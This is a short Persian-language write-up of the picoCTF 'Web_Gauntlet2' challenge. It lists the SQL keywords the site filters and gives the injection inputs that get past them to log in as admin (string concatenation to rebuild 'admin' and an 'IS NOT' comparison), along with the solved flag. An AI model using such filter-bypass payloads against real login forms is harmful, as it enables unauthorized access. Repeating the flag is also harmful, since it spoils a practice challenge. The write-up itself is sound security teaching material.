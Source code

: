 ```yaml
---
tags:
  - WEB
---
```

# Web_Gauntlet2

سلاممممم   
 با یه چالش وب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/174?category=1&difficulty=2&page=2&search=) 
 قراره همچنان injection انجام بدیم :))


میدونیم که تو لینک [filters](http://mercury.picoctf.net:61434/filter.php) کاراکترهای فیلتر شده رو برامون نوشته و باید بدون استفاده از اونها injetion انجام بدیم.
[site](http://mercury.picoctf.net:61434/) باید اینجا سعی کنیم به عنوان ادمین وارد بشیم.

اینجا دیگه خدا رو شکر فقط یه راند هست و 5 تا رااااند نیست !

رشته‌های منع شده :
`or` `and` `=` `like` `>` `<` `--` `admin` `union` `;`



username : `admi'||'n`

password : `1' IS NOT '2`

اینجوری خیلی راحت میشه چک کردن پسورد رو برابر 1 کرد.

<center>
![Web_Gauntlet21.png](Web_Gauntlet21.png)
</center>


فلگ رو یافتیم !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{0n3_m0r3_t1m3_b55c7a5682db6cb0192b28772d4f4131}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)

